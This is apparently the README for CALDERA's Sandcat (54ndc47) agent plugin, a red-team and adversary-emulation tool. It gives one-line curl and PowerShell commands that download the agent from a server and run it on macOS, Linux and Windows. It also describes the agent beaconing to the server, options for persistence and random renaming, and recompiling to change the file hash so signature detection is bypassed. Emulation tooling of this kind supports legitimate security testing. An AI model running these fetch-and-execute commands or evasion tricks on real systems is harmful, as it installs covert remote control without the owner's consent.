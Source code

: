 Plugin: sandcat
============

The Sandcat plugin, otherwise known as 54ndc47, is the default agent that CALDERA ships with. 54ndc47 is currently written in GoLang for cross-platform compatibility. 

54ndc47 agents require network connectivity to CALDERA at port 8888.

## Deploy 

To deploy 54ndc47, use one of the built-in delivery commands which allows you to run the agent on any operating system. Each of these commands downloads the compiled 54ndc47 executable from CALDERA and runs it immediately:

> You can also go to the plugins -> sandcat GUI page and view these same delivery commands, along with a few other customized options. The delivery commands available there include a few extra goodies, such as persistence and the automatic renaming of the sandcat executable to a random name.

**OSX**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:darwin' http://localhost:8888/file/download > /tmp/sandcat-darwin && chmod +x /tmp/sandcat-darwin && /tmp/sandcat-darwin -server http://localhost:8888 -group my_group -v; 
```

**Linux**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' http://localhost:8888/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux -server http://localhost:8888 -group my_group -v; 
```

**Windows / PowerShell**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -v;
```

**Windows / Command Prompt**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);cmd.exe /c C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -executor cmd -v;
```
Once the agent is running, it should show log messages when it beacons into CALDERA.

> If you have GoLang installed on the CALDERA server, each time you run one of the delivery commands above, the agent will re-compile itself dynamically and it will change it's source code so it gets a different file hash (MD5). This will help bypass file-based signature detections.

## Options

When deploying a 54ndc47 agent, there are optional parameters you can use when you start the executable:

* **Server**: This is the location of CALDERA. The agent must have connectivity to this host/port. 
* **Group**: This is the group name that you would like the agent to join when it starts. The group does not have to exist. A default group of my_group will be used if none is passed in.
* **Executors**: A comma-separated list of execution engines to use. On MacOS and Linux, sh is the only option (and the default if this parameter is not passed in). On Windows, psh (PowerShell), cmd (command prompt) and pwsh (open-source PowerShell core) are the options, with psh the default.
* **v**(new): Use `-v` to see verbose output from sandcat.  Otherwise, sandcat will run silently. 

### Customizing Default Options & Execution Without CLI Options

It's possible to customize the default values of these options when pulling sandcat from the caldera server.  This is useful if your method of executing sandcat isn't friendly towards including the required options on the command line. The option to change and new values can be specified by adding HTTP headers to the web request: 

* defaultGroup: specify a new default group.
* defaultSleep: specify a new default sleep interval.
* defaultServer: specify a new default server. 

For example, the following will download a linux executable that will use `new_group` as a default group instead of `my_group` and have a default sleep interval of `5` seconds instead of `60`.  

```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' -H 'defaultGroup:new_group' -H 'defaultSleep:5' http://localhost:8888/file/download
```

## Updating the agent

The 54ndc47 agent is compiled dynamically upon request (through the /file/download endpoint) as long as GoLang is installed on the server. Alternatively, you can compile the agent yourself by running one of the following commands:
```
GOOS=windows go build -o ../payloads/sandcat.go-windows -ldflags="-s -w" sandcat.go
GOOS=linux go build -o ../payloads/sandcat.go-linux -ldflags="-s -w" sandcat.go
GOOS=darwin go build -o ../payloads/sandcat.go-darwin -ldflags="-s -w" sandcat.go
```

> There is a script at the root of this plugin called update-agents.sh, which runs the above commands. 

For Windows computers, we assume 64-bit. If you are running 32-bit Windows, you'll want to compile the agent specifically for this. You can do this by running the following command before you run the compile command:
```
set GOARCH=386  
```